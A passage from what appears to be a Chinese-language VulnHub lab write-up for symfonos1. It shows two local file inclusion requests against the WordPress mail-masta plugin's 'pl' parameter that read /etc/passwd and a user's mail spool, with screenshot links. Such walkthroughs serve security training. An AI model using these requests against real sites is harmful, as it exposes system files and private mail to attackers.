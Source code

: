 `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos1/12.png)

可以,下面尝试从其他文件得到一些信息

`http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios`

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos1/13.png)
